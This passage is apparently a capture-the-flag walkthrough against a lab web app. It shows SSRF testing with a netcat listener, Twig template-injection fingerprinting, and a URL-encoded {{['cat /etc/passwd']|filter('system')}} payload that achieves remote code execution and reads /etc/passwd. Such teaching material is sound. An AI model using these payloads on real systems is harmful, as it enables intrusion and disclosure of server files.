

The command executes successfully on the server, resulting in full remote code execution via XSLT injection.

---

## Server Side Exploitation - Walkthrough

We are provided with the following target URL:

```
94.237.120.119:44445
```

Browsing to the application reveals a website for a food truck company.


Interacting with the navigation links yields no visible results, suggesting that the frontend is either incomplete or relies heavily on backend-driven content. Inspecting the main page traffic reveals that the application issues three `POST` requests to an `API` endpoint. Each request corresponds to a different food truck location:

```
api=http://truckapi.htb/?id%3DFusionExpress01

api=http://truckapi.htb/?id%3DFusionExpress02

api=http://truckapi.htb/?id%3DFusionExpress03
```



Each `POST` request contains two parameters, `id` and `location`:

```json
{"id": "FusionExpress01", "location": "321 Maple Lane"}

{"id": "FusionExpress02", "location": "456 Oak Avenue"}

{"id": "FusionExpress03", "location": "134 Main Street"}
```


Since the application fetches data from a **remote URL**, it is a potential candidate for Server-Side Request Forgery (SSRF). To test this, we set up a local listener:

```bash
sudo nc -lvnp 8001
```

We then modify the `api` parameter to point to our listener:

```bash
api=http://10.10.14.137:8001/ssrf
```

No inbound request is received, indicating that SSRF is not present or is adequately mitigated.

Next, we test for Server-Side Template Injection (SSTI). We begin by modifying the `id` parameter and observing the server’s response:

```bash
# Plain
api=http://truckapi.htb/?id=HACKED

# URL encoded
api=http://truckapi.htb/?id%3DHACKED
```

The supplied value is reflected directly in the response:

```bash
{"id": "HACKED", "location": "321 Maple Lane"}
```


This reflection suggests that the application dynamically renders the value of `id`, making it a viable candidate for SSTI testing.

To fingerprint the template engine, we follow a standard SSTI decision tree:


We begin with a common arithmetic payload:

```
api=http://truckapi.htb/?id%3D${7*7}
```

The payload is reflected verbatim in the response:

```
{"id": "${7*7}", "location": "134 Main Street"}
```



Since the expression is not evaluated, we proceed along the "red" path and test an alternative syntax:

```
api=http://truckapi.htb/?id%3D{{7*7}}
```

This time, the expression is evaluated server-side:

```
{"id": "49", "location": "134 Main Street"}
```




To further distinguish between template engines, we inject a payload that behaves differently depending on the engine:

```
api=http://truckapi.htb/?id%3D{{7*'7'}}
```

The result remains:

```
{"id": "49", "location": "134 Main Street"}
```


This behavior allows us to distinguish between common engines:

- Jinja evaluates `7 * '7'` as string multiplication &rarr; `7777777`
- Twig evaluates it as numeric multiplication &rarr; `49`

Since the output is `49`, we can confidently conclude that the target application is using the `Twig` template engine.

To confirm the vulnerability, we inject a payload that exposes contextual information about the current template:

```
api=http://truckapi.htb/?id%3D{{_self}}
```

The server responds with internal template metadata:

```
{"id": "__string_template__0177c07c1ce875b2c81f5871e3da1c28", "location": "134 Main Street"}
```


This confirms the presence of an exploitable SSTI vulnerability.

Next, we attempt to achieve remote code execution by leveraging PHP’s `system()` function via Twig’s `filter()` functionality:

```
api=http://truckapi.htb/?id%3D{{+['cat+/etc/passwd']+|+filter('system')+}}
```

The server returns an error:

```
Error (3): URL using bad/illegal format or missing URL
```


This error is likely caused by improper handling of special characters, particularly the pipe (`|`). We URL-encode the payload and retry:

```
api=http://truckapi.htb/?id%3D{{%2b['cat%2b/etc/passwd']%2b|%2bfilter('system')%2b}}
```

This time, the payload executes successfully, resulting in remote code execution and disclosure of `/etc/passwd`:

